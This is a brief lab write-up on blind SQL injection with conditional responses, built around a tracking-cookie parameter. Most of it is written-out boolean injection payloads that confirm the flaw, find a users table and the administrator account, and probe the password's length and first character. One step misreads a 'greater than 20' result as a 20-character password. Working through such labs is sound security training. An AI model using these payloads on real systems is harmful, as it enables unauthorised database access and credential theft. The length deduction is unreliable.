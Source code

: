 **Lab: Blind SQL injection with conditional responses**
*- Goal:*
1. Exploit vulnerabilities to find out the password
2. Log in as `administrator`

*- Analysis:*

1. Confirm that the parameter is vulnerable to blind SQLi:

>select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM'

-> If this tracking id exists -> query returns value -> Welcome back message
-> If the tracking id doesn't exist -> query returns nothing -> no Welcome back message

>select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and 1=1--'

-> TRUE -> Welcome back

>select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and 1=0--'

-> FALSE -> no Welcome back
2. Confirm that we have a user table:
> select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and (select 'x' from users LIMIT 1 )='x'--'

-> Welcome back -> users table exist in the database

3. Confirm that we have a user `Administrator` existing in users table:
> select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and (select username from users where username='administrator' )='administrator'--'

-> Welcome back -> It existed 
4. Enumerate the password of '`Administrator`:
> select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and (select username from users where username='administrator' and LENGTH(password) > 20)='administrator'--'

-> Welcome back -> True
-> Password = 20 characters

> select tracking-id from tracking-table where trackingId = 'xqGTtUq5IPEnCerM' and (select substring(password,1,1) from users where username='administrator')='a'--'

*`LAB SOLVED`*
![Alt](result.png)